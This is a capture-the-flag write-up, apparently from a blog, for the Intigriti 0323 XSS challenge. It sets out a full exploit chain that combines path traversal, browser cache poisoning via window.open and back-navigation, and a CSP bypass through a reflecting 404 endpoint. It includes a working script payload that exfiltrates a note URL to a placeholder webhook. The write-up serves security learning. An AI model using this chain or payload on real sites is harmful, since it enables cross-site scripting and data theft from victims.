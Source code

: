 ```yaml
---
layout: mypost
title: Intigriti Challenge 0323 - XSS from the Cache
categories: [web, ctf]
---
```


## Introduction

This is my first CTF writeup. Thanks to 0xGodson_ and BrunoModificato for making this challenge.

## Recon

Looking at the source code of the site, we can find this github repository containing the backend code:

```<!-- We are OpenSource Now! https://github.com/0xGodson/notes-app-2.0 -->```

The site, located at https://challenge-0323.intigriti.io/, is a note-taking application with basic functionality for creating and opening notes. These notes are discoverable from the `/notes` endpoint only with the session from which they were made. The flag is submitted to a note by a bot when you visit the `/visit` endpoint. 

## XSS

From the fact that the flag is only available from the bot, we deduce that we have to execute some XSS on the bot. So, we look for XSS sinks in the website:

1.The frontend code for `/note/:id` contains
```js
window.noteContent.innerHTML = DOMPurify.sanitize(data, {FORBID_TAGS: ['style']}); // no CSS Injection
```
2.The backend code for `/debug` contains
```js
// DEBUG Endpoints
// TODO: Remove this before moving to prod
app.get("/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/:id", (req, res) => {
    let mode = req.headers["mode"];
    if (mode === "read") {
        res.send(getPostByID(req.params.id).note);
    } else {
        return res.status(404).send("404");
    }
});
```
But in both endpoints there are issues with injecting an XSS. The `/note/:id` endpoint sanitizes the note data with the latest version of DOMPurify, so there will be no way to place an XSS there without a 0-day. Meanwhile, the `/debug` endpoint requires the `mode: read` header to get the note data reflected in the response.

Is there anywhere in the code that naturally uses a `mode: read` header? In fact, the frontend code for `/note/:id` gets the note data with:
```js
id = params.get("id").trim().replace(/\s\r/,'');
fetch(`/note/${id}`, {
    method: 'GET',
    headers: {
        'mode': 'read'
    },
})
.then(response => {
    return response.text()
})
.then(data => {
    if (data) {
        window.noteContent.innerHTML = DOMPurify.sanitize(data, {FORBID_TAGS: ['style']}); // no CSS Injection
    } else {
        document.getElementsByClassName("msg-info")[0].innerHTML="404 😭"
        window.noteContent.innerHTML = "404 😭" 
    }
})
```
The value for the `id` variable comes from a url parameter that we can control, so we could use a path traversal attack like `../debug` to make it request note data from the debug endpoint instead.

However, even if we do, DOMPurify's sanitization is applied to the response before being set to the DOM. This is problematic, as it seems to be the only place that XSS could conceivably occur given the header requirement on `/debug`.

## Controlling the Cache

Currently our problem is making the bot access `/debug` outside of `/note/:id` with the required `mode: read` header. In other words, we want the response to our request to `/debug` from `/note/:id` to be presented as is at the `/debug` endpoint, without sanitization. This idea of preserving a response prompts us to think about taking advantage of browser page caching.

In fact, this challenge shares a lot of similarities with a [recent CTF challenge](https://blog.arkark.dev/2022/11/18/seccon-en/#web-spanote). The solution describes some useful cache behaviour: 
- Chrome has a bfcache (backwards-forwards cache) and a disk cache.
- Both caches are used when accessing pages with backwards/forwards navigation.
- If the bfcache and disk cache are available, the bfcache will take priority for access if a resource is cached in both.
- The disk cache caches fetched resources. 
- The bfcache is disabled on windows opened with `window.open`.
- We can clear cached versions of a particular page by receiving an error status code (like 404) from requesting that page.

First, we direct the bot to execute `window.open` on the `/debug` page. It will receive a 404, clearing any cached versions for the page and allowing us to backwards navigate to the page later. Then, we make the bot visit `/note/:id` and make the fetch request to `/debug` with  `mode: read`. As per the cache behaviour described above, the response from `/debug` will be cached to the disk cache. To view the cached response, we make the bot backwards navigate to `/debug`. Because the window was opened with `window.open`, the disk cache will take priority over the disabled bfcache and our intentionally cached response will be viewed. 

This explanation is more intuitive when looking at the solution script to execute the exploit:
```js
const debugEndpoint = "/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/"
// open the debug note to get a 404, clearing previous cache
const evilWindow = window.open(`${victimHost}/debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/${noteId}`);
await delay(1000);

// go to /note/:id w/ path traversal id parameter and get debug note cached
evilWindow.location = `${victimHost}/note/${noteId}?id=../debug/52abd8b5-3add-4866-92fc-75d2b1ec1938/${noteId}`;
await delay(1000);

// back.html runs history.go(-2) to backwards navigate 2 pages, accessing the cached debug note
evilWindow.location = `${location.origin}/back.html`;  
// the client is rendering the note at /debug as html!
await delay(1000);
```

## Bypassing the CSP

But now, we must consider what we want to put in the note retrieved by `/debug`. If we just put `<script>...</script>`, we'll find that we run into an obstacle that we've ignored up until now: the Content Security Policy.

```js
app.use((req, res, next) => {
    res.setHeader(
        "Content-Security-Policy",
        "default-src 'self'; style-src fonts.gstatic.com fonts.googleapis.com 'self' 'unsafe-inline'; font-src s.gstatic.com 'self'; script-src 'self'; base-uri 'self' frame-src 'self'; frame-ancestors 'self'; object-src 'none';"
    );
    next();
});
```
The first reaction to encountering a CSP should be to consult google's [CSP evaluator](https://csp-evaluator.withgoogle.com/). The evaluator points out that the `self` value for the `script-src` parameter could be problematic if the site hosts user-controlled scripts. We will try to search for such behaviour.

Looking for endpoints on the server that reflect user input, we discover that the wildcard `/*` endpoint reflects user input:
```js
app.get("*", (req, res) => {
    res.setHeader("content-type", "text/plain"); // no xss)
    res.status = 404;
    try {
        return res.send("404 - " + encodeURI(req.path));
    } catch {
        return res.send("404");
    }
});
```
For example, if we access `/abcd`, we'll get the response `404 - /abcd`. But how could we store a script here?

Well, what if we started our payload with `0/;`? Then the response would be `404 - /0/;`, which is a valid statement in javascript (an integer minus a regex) that could be continued with additional javascript statements.

However, our input is also going to go through `encodeURI(req.path)`. From the MDN web docs, this tells us that we will only be able to use these characters:
```
A–Z a–z 0–9 - _ . ! ~ * ' ( )

; / ? : @ & = + $ , #
```
A traditional approach here will not work as we want to execute a sequence of requests. If we want to use `fetch`, we will need to use the curly brackets `{}` or arrow brackets `>` at some point to declare a function (either an async function to use `await fetch()` within, or callback functions for `.then()` chaining).

However, if we instead use the synchronous `XMLHttpRequest` to issue the request, we do not need to declare any functions. Through this observation, we arrive at this payload to exfiltrate the url of the flag note:
```js
/0/;const/**/r=new/**/XMLHttpRequest();r.open('GET','/notes',false);r.send(null);const/**/data=r.responseText;const/**/f=new/**/XMLHttpRequest();f.open('GET','/visit'+String.fromCharCode(0x3F)+'url=<webhook_url>/'+(new/**/DOMParser).parseFromString(data,'text/html').getElementsByTagName('a').item(0).href,false);f.send(null);
```
Our final payload will thus be:
```html
<script src="/0/;const/**/r=new/**/XMLHttpRequest();r.open('GET','/notes',false);r.send(null);const/**/data=r.responseText;const/**/f=new/**/XMLHttpRequest();f.open('GET','/visit'+String.fromCharCode(0x3F)+'url=<webhook_url>'+(new/**/DOMParser).parseFromString(data,'text/html').getElementsByTagName('a').item(0).href,false);f.send(null);"></script>
```

## Conclusion
Now we just need to:
1. Submit this payload as a note.
2. Direct the bot to our attacker site. 
3. From the attacker site, poison the bot's cache and make it render our payload as HTML, exfiltrating the URL of the note with the flag.
4. Check our webhook for the URL of the note with the flag.

Executing this process, we obtain the flag.

The flag is `INTIGRITI{b4ckw4rD_f0rw4rd_c4ch3_x55_3h?}`.

Thanks again to the authors 0xGodson and BrunoModificato for the interesting challenge.
